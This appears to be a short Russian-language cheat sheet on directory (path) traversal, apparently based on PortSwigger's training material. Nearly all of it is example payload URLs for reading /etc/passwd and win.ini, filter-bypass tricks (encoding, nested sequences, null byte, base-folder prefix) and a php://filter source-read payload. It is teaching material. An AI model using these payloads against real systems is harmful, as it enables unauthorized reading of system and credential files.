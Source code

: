 [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

## Чтение произвольных файлов через обход каталога
Unix-based:
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
Windows:
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`
## Общие препятствия для использования уязвимостей обхода путей к файлам
Использование абсолютной пути:
`https://insecure-website.com/loadImage?filename=/etc/passwd`
Использование вложенных последовательностей, например, ....// или ....\\/:
`https://insecure-website.com/loadImage?filename=....//....//....//etc/passwd`
Обход путем кодирования URL:
`../ == %2e%2e%2f`
или двойного кодирования URL:
`../ == %252e%252e%252f`
Различные нестандартные кодировки, такие как `..%c0%af` или `..%ef%bc%8f`, также могут сработать.
Если приложение требует, чтобы имя файла, начиналось с ожидаемой базовой папки, например, `/var/www/images`, то можно включить требуемую базовую папку, за которой следуют подходящие последовательности:
`https://insecure-website.com/loadImage?filename=/var/www/images/../../../etc/passwd`
Если приложение требует, чтобы имя файла, предоставляемое пользователем, заканчивалось ожидаемым расширением файла, например `.png`, то можно использовать нулевой байт (`%00`), чтобы обрезать путь к файлу перед требуемым расширением:
`https://insecure-website.com/loadImage?filename=../../../etc/passwd%00.png`

`image.php?img=php://filter/convert.base64-encode/resource=index.php`


